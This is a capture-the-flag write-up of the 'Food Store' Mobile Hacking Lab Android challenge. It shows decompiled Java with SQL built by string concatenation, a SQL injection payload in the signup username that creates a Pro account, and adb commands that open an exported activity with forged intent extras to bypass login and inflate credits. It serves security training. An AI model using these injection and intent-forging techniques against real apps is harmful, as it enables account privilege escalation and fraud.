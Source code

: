 ```yaml
---
title: Food Store - Mobile Hacking Lab
date: 2025-2-1 00:00:00 +/-TTTT
categories: [Mobile Hacking Lab]
tags: [mobile hacking lab, writeup, mobile penetration testing, android]     # TAG names should always be lowercase
---
```


<br />

### Introduction

Welcome to the **Android App Security Lab: SQL Injection Challenge**! Dive into the world of cybersecurity with our hands-on lab. This challenge is centered around a fictitious "Food Store" app, highlighting the critical security flaw of SQL Injection (SQLi) within the app's framework.

<br />

### Objective

Exploit a SQL Injection Vulnerability: Your mission is to manipulate the signup function in the "Food Store" Android application, allowing you to register as a Pro user, bypassing standard user restrictions.

<br />



The sign up screen enables the creation of a new user account by entering a username, password, and address. Upon successful sign-up, a toast message is displayed confirming the account creation.

<br />

![](/assets/img/mhl/FoodStore/1.png)





<br /><br />

The sign-in screen enables you to log in using your username and password. Upon successful sign-in, the product listing screen is displayed.

![](/assets/img/mhl/FoodStore/2.png)

<br /><br />



The product listing screen shows user information and allows you to order products using credits. A standard account has a limited number of credits available for placing orders.

![](/assets/img/mhl/FoodStore/4.png)





<br /><br />

![](/assets/img/mhl/FoodStore/5.png)





<br /><br />

**Analyzing the application using JADX**

From: AndroidManifest.xml

```xml
<activity
    android:name="com.mobilehackinglab.foodstore.Signup"
    android:exported="false"/>
<activity
    android:name="com.mobilehackinglab.foodstore.MainActivity"
    android:exported="true"/>
<activity
    android:name="com.mobilehackinglab.foodstore.LoginActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```



<br />

From: com.mobilehackinglab.foodstore.Signup

```java
User newUser = new User(i, obj, obj2, editText2.getText().toString(), false, 1, null);
dbHelper.addUser(newUser);
Toast.makeText(this$0, "User Registered Successfully", 0).show();
```

<br />



From: com.mobilehackinglab.foodstore.DBHelper

```java
public final class DBHelper extends SQLiteOpenHelper {
    public static final String DATABASE_NAME = "userdatabase.db";
    public static final int DATABASE_VERSION = 1;


    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onCreate(SQLiteDatabase db) {
        Intrinsics.checkNotNullParameter(db, "db");
        db.execSQL("CREATE TABLE users (\n    id INTEGER PRIMARY KEY AUTOINCREMENT,\n    username TEXT,\n    password TEXT,\n    address TEXT,\n    isPro INTEGER\n    \n    \n)");
    }

    
    
    
        public final void addUser(User user) {
        Intrinsics.checkNotNullParameter(user, "user");
        SQLiteDatabase db = getWritableDatabase();
        byte[] bytes = user.getPassword().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes, "this as java.lang.String).getBytes(charset)");
        String encodedPassword = Base64.encodeToString(bytes, 0);
        String Username = user.getUsername();
        byte[] bytes2 = user.getAddress().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes2, "this as java.lang.String).getBytes(charset)");
        String encodedAddress = Base64.encodeToString(bytes2, 0);
        String sql = "INSERT INTO users (username, password, address, isPro) VALUES ('" + Username + "', '" + encodedPassword + "', '" + encodedAddress + "', 0)";
        db.execSQL(sql);
        db.close();
    }
}
```

The above code inserts a new entry into the **users** table with the following values:

- **Username**: User-provided username
- **Password**: Base64-encoded password
- **Address**: Base64-encoded address
- **isPro**: Set to **0**, which represents **false**

For the example user, the values are:

- **Username**: `test`
- **Password**: `dGVzdA==` (Base64-encoded **test**)
- **Address**: `RWd5cHQ=` (Base64-encoded **Egypt**)
- **isPro**: `0` (**false**)

This translates into the following SQL statement:

```sql
INSERT INTO users (username, password, address, isPro) VALUES ('test', 'dGVzdA==', 'RWd5cHQ=', 0);
```

<br />

![](/assets/img/mhl/FoodStore/3.png)



<br /><br />

**Exploit the SQLi**

we need to create a new user with base64 password and address and 

```javascript
test2','MTIzNA==','RWd5cHQ=',1);#
```

<br />

Should result in the following query:

```sql
INSERT INTO users (username, password, address, isPro) VALUES ('test2','MTIzNA==','RWd5cHQ=',1);# ', 'dGVzdA==', 'RWd5cHQ=', 0)
```

The values will be:

- **Username**: `test2`
- **Password** (Base64-encoded **1234**): `MTIzNA==`
- **Address**: Any address in Base64 (for example **Egypt**): `RWd5cHQ=`
- **isPro**: `1` (**true**, indicating a pro user)

<br />

![](/assets/img/mhl/FoodStore/6.png)



<br /><br />

Login with the new user:

Now we are a Pro user

![](/assets/img/mhl/FoodStore/7.png)





<br /><br />



**Authentication Bypass**

It is important to note that **MainActivity**, intended to be accessible only after a successful sign-in, was **exported**, making it possible to access it directly.

```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity
```

<br />

![](/assets/img/mhl/FoodStore/8.png)



<br /><br />

From: com.mobilehackinglab.foodstore.LoginActivity

```java
public static final void onCreate$lambda$1(EditText $usernameEditText, EditText $passwordEditText, LoginActivity this$0, View it) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    String inputUsername = $usernameEditText.getText().toString();
    String inputPassword = $passwordEditText.getText().toString();
    User user = this$0.getDbHelper().getUserByUsername(inputUsername);
    if (user == null || !Intrinsics.areEqual(user.getPassword(), inputPassword)) {
        Toast.makeText(this$0, "Invalid Credentials", 0).show();
        return;
    }
    Toast.makeText(this$0, "Login Successful", 0).show();
    int credit = user.isPro() ? 10000 : 100;
    Intent intent = new Intent(this$0, (Class<?>) MainActivity.class);
    intent.putExtra("USERNAME", inputUsername);
    intent.putExtra("USER_CREDIT", credit);
    intent.putExtra("IS_PRO_USER", user.isPro());
    intent.putExtra("USER_ADDRESS", user.getAddress());
    this$0.startActivity(intent);
    this$0.finish();
}
```

a **ternary operator** to assign **credits** based on the user type:

- If the user is **Pro** (`user.isPro()` returns **true**), the user gets **10,000 credits**.
- If the user is **Normal** (`user.isPro()` returns **false**), the user gets only **100 credits**.

The user's information, including username, credits, address, and account type, is passed to the next activity through **Intent extras**.

<br />

**adb**

```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity --es "USERNAME" "test3" --ei "USER_CREDIT" 133337 --ez "IS_PRO_USER" true --es "USER_ADDRESS" "Egypt"
```

<br />

![](/assets/img/mhl/FoodStore/9.png)










